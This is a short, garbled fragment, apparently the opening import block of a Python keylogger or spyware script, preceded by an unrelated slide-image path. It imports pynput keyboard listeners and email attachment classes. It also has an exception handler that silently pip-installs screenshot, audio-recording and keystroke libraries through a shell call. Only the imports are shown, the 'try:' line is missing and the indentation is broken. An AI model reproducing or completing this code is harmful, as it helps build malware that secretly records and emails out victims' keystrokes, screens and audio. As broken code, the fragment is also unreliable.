

#
from pynput import keyboard
    from pynput.keyboard import Listener
    from email import encoders
    from email.mime.base import MIMEBase
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    import glob
except ModuleNotFoundError:
    from subprocess import call
    modules = ["pyscreenshot","sounddevice","pynput"]
    call("pip install " + ' '.join(modules), shell=True)